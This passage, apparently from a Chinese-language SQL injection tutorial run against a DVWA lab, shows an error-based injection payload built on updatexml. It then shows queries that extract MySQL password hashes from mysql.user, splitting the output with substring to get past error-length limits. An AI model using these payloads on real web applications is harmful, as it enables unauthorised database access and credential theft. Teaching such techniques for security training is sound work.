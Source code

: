 ```bash
1 row in set (0.00 sec)
```
比如有两个表的情况下，我们把表1命别名a，表2命别名b，则查询语句可以这么写：
```sql
SELECT a.user_info, e.name, e.salary FROM (SELECT USER() AS user_info) a, employees e;

#查询结果
| user_info     | name  | salary |
|---------------|-------|--------|
| root@localhost| John  | 5000   |
| root@localhost| Jane  | 6000   |

```
## 0x08 黑盒下的报错注入
在黑盒模式下的报错注入：首先获取当前库，通过库获取表名，接着通过表名获取字段，最后获取字段内容。  
```sql
'1'and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+
```
得到库名dvwa。下面我们要获取账号和密码，获取账号和密码需要 root 用户才有足够大的权限。
```sql
select authentication_string from mysql.user limit 1;
```
```bash
mysql> select authentication_string from mysql.user;
+-------------------------------------------+
| authentication_string                     |
+-------------------------------------------+
| *6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9 |
| *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| *C032CD8255B8ADF7AF529689127ED91A690EF518 |
+-------------------------------------------+
4 rows in set (0.01 sec)

mysql> select authentication_string from mysql.user limit 1;
+-------------------------------------------+
| authentication_string                     |
+-------------------------------------------+
| *6BB4837EB74329105EE4568DDA7DC67ED2CA2AD9 |
+-------------------------------------------+
1 row in set (0.00 sec)
```
在网页上返回该内容，由于长度超过了32字符，所以需要分段显示返回。

```bash
mysql> select(updatexml(1,concat(0x7e,(select (select authentication_string from mysql.user limit 1 )),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~*6BB4837EB74329105EE4568DDA7DC6'

# 缺少中间的select也可以，返回内容的报错内容是一样的

mysql> select(updatexml(1,concat(0x7e,(select authentication_string from mysql.user limit 1 ),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~*6BB4837EB74329105EE4568DDA7DC6'

# 接下来返回32-40的长度部分，拼接起来才算完整的密码
mysql> select(updatexml(1,concat(0x7e,(select (substring((select authentication_string from mysql.user limit 1),32,40))),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~7ED2CA2AD9~'

mysql> select(updatexml(1,concat(0x7e,(substring((select authentication_string from mysql.user limit 1),32,40)),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~7ED2CA2AD9~'
```